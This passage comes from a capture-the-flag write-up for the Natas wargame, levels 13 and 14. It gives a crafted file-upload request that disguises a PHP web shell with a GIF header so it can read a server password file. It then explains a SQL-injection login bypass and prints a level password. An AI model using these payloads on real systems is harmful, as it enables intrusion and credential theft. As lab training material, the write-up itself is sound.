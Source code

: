 Again, turn on the Burp Suite browser and the Proxy Intercept function. Change the `filename` of the POST request form to anything ends with `.php`. An example, in the payload portion of the POST request, can be: 

```
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="filename"

9q708avz39.php
------WebKitFormBoundarya8snrslosPiK9vI2
Content-Disposition: form-data; name="uploadedfile"; filename="natas13.php"
Content-Type: application/octet-stream

GIF89a
<?php
    passthru("cat /etc/natas_webpass/natas13")
?>
------WebKitFormBoundarya8snrslosPiK9vI2--
```

Following the link to the uploaded resource, we can see the GIF magic number that we prepend to the PHP code and the result of the command in `passthru()`

natas14: `qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`

# Natas 14

To get the password for the next level, the result of the query 
``` sql
SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"
```
must return the result consisting of one or more lines (the check is at `mysqli_num_rows`). We obviously have no clue what is in the database, indeed any attempt in trying the `username` of `natas14` or `natas15` does not work.

This code is vulnerable to SQL injection, as we can directly manipulate the query to whatever we want. Also there is a debug function to help us out, by putting the URL parameter of `debug` in the POST request to the server. Submitting the form will do a POST request to the endpoint at `/index.php`. Hence, to enable the debug mode to see our command (which is very useful), we can use the intercept functionality, along with the in-app browser of Burp Suite to manipulate the URL parameter in the POST request to the backend.

We have no idea of the password in the database, hence we need a way to escape the query. Doing `"` at the beginning closes the first quotation mark in the `username` field. Of course no username matches `""` (empty string), hence we need a condition that is always True. Looking up on Google, we can see one common way is to put `or true` in the payload to make the result of the query always True. To escape all the conditions at the end of the query, again from simple Googling, we can use the comment in `mysql`: `--`. In MySQL, the `--`  (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on).
